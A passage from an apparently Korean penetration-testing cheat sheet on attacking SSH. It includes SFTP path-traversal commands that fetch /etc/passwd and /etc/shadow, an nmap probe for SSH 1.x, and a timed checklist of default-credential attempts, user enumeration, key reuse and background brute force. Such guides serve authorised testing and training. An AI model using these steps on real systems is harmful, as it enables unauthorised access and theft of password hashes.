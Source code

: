 ### 🔓 OpenSSH < 6.2 - SFTP Path Traversal

```bash
# CVE-2010-4755 경로 순회
sftp user@{IP}
get ../../../etc/passwd
get ../../../../etc/shadow
```

### 💥 SSH 1.x Protocol Vulnerabilities

```bash
# SSH 1.x 프로토콜 지원 확인
nmap --script ssh-proto-version -p 22 {IP}

# CRC32 공격 (SSH 1.5)
# 자동화된 도구 필요
```

---

## ⏱️ 시간 관리 가이드

### 🎯 5분 안에 완료할 것들

- [ ] SSH 버전 및 기본 정보 수집
- [ ] 기본 자격증명 시도 (root/root, admin/admin)
- [ ] 사용자 열거 확인 (OpenSSH < 7.7인 경우)
- [ ] NSE 스크립트 실행

### 🔍 15분 안에 완료할 것들

- [ ] 모든 기본 자격증명 시도 완료
- [ ] SSH 키 파일 시도 (다른 서비스에서 수집한 것)
- [ ] 브루트포스 공격 시작 (백그라운드)
- [ ] SSH 취약점 스캔 완료

### 💥 25분 후 판단 기준

**성공 기준:**

- [ ] SSH 접근 성공
- [ ] 사용자 계정 식별 완료
- [ ] 터널링 가능성 확인
- [ ] 다른 서비스 접근 경로 확보

**실패시 다음 단계:**

- [ ] 브루트포스를 백그라운드로 계속 실행
- [ ] 다른 포트/서비스로 이동
- [ ] 수집한 정보로 다른 공격 벡터 시도
- [ ] SSH 터널링이 가능한 상황이면 우선순위 유지

**다음 단계**:

- 성공시 권한상승을 위해 `PRIVILEGE-ESCALATION/` 폴더로
- 실패시 다른 `PORT-ATTACKS/` 파일로 이동
- SSH 터널링 필요시 해당 섹션 참조
